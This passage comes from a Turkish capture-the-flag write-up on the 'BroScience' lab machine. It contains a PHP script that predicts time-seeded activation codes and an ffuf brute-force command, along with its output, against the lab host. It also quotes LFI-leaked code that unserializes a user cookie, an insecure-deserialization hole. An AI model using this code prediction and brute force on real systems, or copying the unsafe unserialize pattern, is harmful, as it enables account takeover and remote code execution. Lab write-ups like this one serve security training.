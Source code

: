 `time()` ile sözde rastgele bir değer oluşturuyor. 

Sunucudan dönen response header’ında zaman bilgisini görebilirim. Öylesine bir request gönderdim ve sunucunun zaman değerini aldım. Sonrasında aşağıdaki kod ile activation kodları ürettim.

```php
<?php

function generate_activation_code($time) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand($time);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

$svrtime = date(strtotime("Mon, 09 Jan 2023 00:37:42 GMT"))-100;
$a = 0;
while ($a <= 500){
	$a++;
	$svrtime++;
	echo generate_activation_code($svrtime)."\n";
}
?>
```

Ürettiğim aktivasyon kodları ile brute-force yapacağım.

```bash
root@acivik:~/ctfs/BroScience-10.129.93.109# php generator.php > activate.txt
root@acivik:~/ctfs/BroScience-10.129.93.109# ffuf -w activate.txt -u https://broscience.htb/activate.php?code=FUZZ -fs 1256

-> NsscBOJGera5O4Mw4AU8g7PR4oR0MoGU [Status: 200, Size: 1258, Words: 293, Lines: 28, Duration: 184ms]

```

Kullanıyı aktif ettim.

![https://i.ibb.co/C2k1VgZ/image.png](https://i.ibb.co/C2k1VgZ/image.png)

LFI ile dosyaları okumaya devam ediyorum.

```php
class UserPrefs {
    public $theme;

    public function __construct($theme = "light") {
		$this->theme = $theme;
    }
}

function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
```